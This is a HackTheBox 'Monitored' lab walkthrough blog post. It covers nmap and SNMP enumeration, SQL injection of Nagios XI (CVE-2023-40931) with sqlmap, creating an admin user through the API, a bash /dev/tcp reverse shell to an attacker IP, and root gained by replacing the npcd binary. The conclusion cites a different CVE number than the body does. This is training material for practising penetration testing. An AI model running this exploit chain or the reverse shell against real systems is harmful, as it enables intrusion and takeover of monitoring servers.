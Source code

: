 +++ 
draft = false
date = 2024-02-17T13:07:16+01:00
title = "Monitored HTB Walkthrough"
description = ""
slug = ""
authors = ["Dennis Drebitca"]
tags = ["NMAP UDP", "JohnTheRipper", "CVE-2023-40931", "Dirsearch", "UDP enumeration", "SNMPwalk", "SQLmap", "SQL injection"]
categories = []
externalLink = ""
series = ["HTB"]
+++

![image](Screenshot_20.png)

The Monitored HTB machine is a medium difficulty level HackTheBox Machine. The main tools and techniques used to crack this machine are:

        - Dirsearch
        - CVE-2023-40931
        - NMAP UDP scan
        - SNMP enumeration with SNMPwalk
        - JohnTheRipper
        - SQL injection with SQLmap


## Reconnaissance

We start a broad Nmap TCP scan by executing the following command:

```sh
sudo nmap -sS -T5 -vvv -p- 10.10.11.248 -Pn -oG nmap_inicial
```

Where the arguments mean:

    -sS: SYN port scan
    -T5: Using timing template 5 of NMAP
    -vvv: Triple verbose so NMAP prints a lot of information
    -p-: All ports are scanned
    -Pn: Skips Host Discovery
    -oG: Grep Format

The scan returns the following information:

![image](Screenshot_2.png)

THere are a lot of open ports besides 22, 80 and 443. What is interesting is that port 389 (LDAP) is open. Next, we run a more comprehensive scan on the open ports to discover services and versions running on them:

```sh
sudo nmap -sCV -p22,80,389,443,5667,8081 10.10.11.248 -oN nmap_exhaustivo -v
```

Now the arguments used mean:

    -sCV: Launches all scanning scripts to discover services and versions running on these ports
    -oN: Normal output format
    -v: Single verbose

The results for this second scan are the following:

![image](Screenshot_3.png)

However, in this machine, there is more interesting ports to be discovered. This is revealed by running a NMAP UDP scan:

```sh
sudo nmap -sU -p- 10.10.11.248 --defeat-icmp-ratelimit --min-rate 5000 -oN nmap_udp
```
    -sU: UDP scan
    -oN: Normal output format
    --defeat-icmp-ratelimit: Used to speed up the scan since UDP scans take longer
    --min-rate: Specifies the minimum packets/second transmitted

Te results for the UDP scan are the following:

![image](Screenshot_4.png)

Port 161 is open. Now lets run a more comprehensive scan to see what is running on port 161, which is usually SNMP.

```sh
sudo nmap -sUCV -p161 10.10.11.248
```

    -sUCV: Launches all scanning scripts to discover services and versions running on these ports over UDP.

This scan reveals that, in fact, the service running IS SNMP v2c. This is good because the SNMP reconnaissance can provide a lot of information.

![image](Screenshot_5.png)

In the meantime, lets use dirsearch to do some subdomain discovery:

```sh
dirsearch -u https://monitored.htb/ --exclude-status 403,404,500
```
![image](Screenshot_1.png)

There is a interesting /nagios subdirectory. Upon trying to access the website, we are prompted for credentials which we don't have yet.

Adding monitored.htb to /etc/hosts, we can visit the webpage. From there, we can acces the website https://monitored/nagiosxi/login, where we can log in with valid credentials. Default and common credentials don't work either, so we have to keep looking.

### SNMP enumeration

For SNMP enumeration, there is a very good guide on [HackTricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-snmp). We are going to use SNMPwalk with public credentials to see what information we can get:

```sh
snmpwalk -v2c -c public 10.10.11.248
```
There is a very interesting line where we can see the svc credentials:

![image](Screenshot_6.png)

## Initial foothold

With this credentials, we can log in to the nagios core portal, https://monitored.htb/nagios. We are greeted with the following panel:

![image](Screenshot_7.png)

We can not do much here. Doing some research, I have stumbled upon [CVE-2023-40931](https://medium.com/@n1ghtcr4wl3r/nagios-xi-vulnerability-cve-2023-40931-sql-injection-in-banner-ace8258c5567). It represents a sql injection possible when authenticated. However, we need an authentication token to make it work. It can be obtained with a POST request to the api:

```sh
curl -ksX POST https://monitored.htb/nagiosxi/api/v1/authenticate --data "username=svc&password=XjH7VCehowpR1xZB"
```

The response is the following:

```sh
{"username":"svc","user_id":"2","auth_token":"6ed830a5d45b3fd199bcabf0dee5940ef39be98a","valid_min":5,"valid_until":"Sat, 17 Feb 2024 17:44:12 -0500"}
```

By specifying the valid_min parameter to a higher numer, the token will be valid for longer.

```sh
curl -ksX POST https://monitored.htb/nagiosxi/api/v1/authenticate --data "username=svc&password=XjH7VCehowpR1xZB&valid_min=1200"
```

```sh
{"username":"svc","user_id":"2","auth_token":"da04dba2da704a7f7a135585fbab1e0d7d75c1a8","valid_min":1200,"valid_until":"Sun, 18 Feb 2024 13:40:19 -0500"}
```

Now we have the necessary ingredients to exploit CVE-2023-40931. We have to make a POST resquest to /nagiosxi/admin/banner_message-ajaxhelper.php with the data action=acknowledge_banner_message&id=3, where the parameter ID is injectable. For this SQL injection, we are going to use SQLmap, an automatic SQLi script.

```sh
sqlmap -u "https://monitored.htb/nagiosxi/admin/banner_message-ajaxhelper.php?action=acknowledge_banner_message&id=3&token=<TOKEN>" --level 5 --risk 3 -p id --batch -D nagiosxi --dump -T xi_users
```
By dumping the xi_users table, we get the information of the users of nagiosxi:

![image](Screenshot_8.png)

	- Nagios Administrator: nagiosadmin
	- apikey: IudGPHd9pEKiee9MkJ7ggPD89q3YndctnPeRQOmS2PQ7QIrbJEomFVG6Eut9CHLL


We can try to also crack the hash using JohnTheRipper

![image](Screenshot_9.png)

The credentials are:

```sh
nagiosadmin::test123
```

These credentials don't work, so maybe the account is disabled or blocked. However, upon doing some more research, it seems like we can add another user to nagiosxi via the API (https://support.nagios.com/forum/viewtopic.php?t=42923). For this, the apikey we got earlier for the nagiosadmin user will be handy.

```sh
curl -ksX POST "https://monitored.htb/nagiosxi/api/v1/system/user?apikey=IudGPHd9pEKiee9MkJ7ggPD89q3YndctnPeRQOmS2PQ7QIrbJEomFVG6Eut9CHLL" -d "username=dennis&password=dennis&name=dennis&email=dennis@localhost&auth_level=admin"
```
![image](Screenshot_10.png)

We now can access the nagiosxi portal using the credentials dennis::dennis. On the configure/Core Config Manager page, we can specify a custom command. This is a perfect way to establish a reverse shell to the underlying system.

![image](Screenshot_12.png#center)

We can add the custom command which  will send a reverse shell:


```sh
bash -c 'bash -i >& /dev/tcp/10.10.15.47/1234 0>&1'
```

![image](Screenshot_11.png#center)

However, no reverse shell is received. Doing some more digging, we have so set it up as s service. This is achieved in Service Management, editing one of the existing services to run our command.

![image](Screenshot_13.png)

Now we have access to the underlying system as user nagios. We do some TTy treatment to have a full interactive tty:

![image](Screenshot_14.png)

## Privilege escalation

Lets see what commands can user nagios execute as root:

```sh
sudo -l
```

![image](Screenshot_15.png)

There is interesting commands that this user can run. The most interesting one is manage_services.sh. This is what this script does:

![image](Screenshot_17.png)

It looks like it can manage the services run under the nagios hood. This is interesting because we can maybe hikack this services. This is exactly what we are going to do with the npcd executable: Delete de original one, replace it with our own code and restart the services using manage_services.sh. It should retur a root shell.

```sh
rm /usr/local/nagios/bin/npcd # Delete originl binary
nano /usr/local/nagios/bin/npcd # Create our own script
chmod +x /usr/local/nagios/bin/npcd # Give it +x permmissions
sudo /usr/local/nagiosxi/scripts/manage_services.sh restart npcd # Restart the service
```

The content of the new executable is a new reverse shell, hopefully as root:

![image](Screenshot_18.png#center)

And indeed, we now have root access to the system and can read the root flag. The machine is PWNED.

![image](Screenshot_19.png)

## Conclusion

This machine reveals the importance of not having insecure information avaliable via SNMTP, as this information leak can transform into a very severe security hole. With access to the svc account, we managed to leverage CVE-2023-51457 to access the admin panel and compromise the underlying system.

![image](Screenshot_20.png)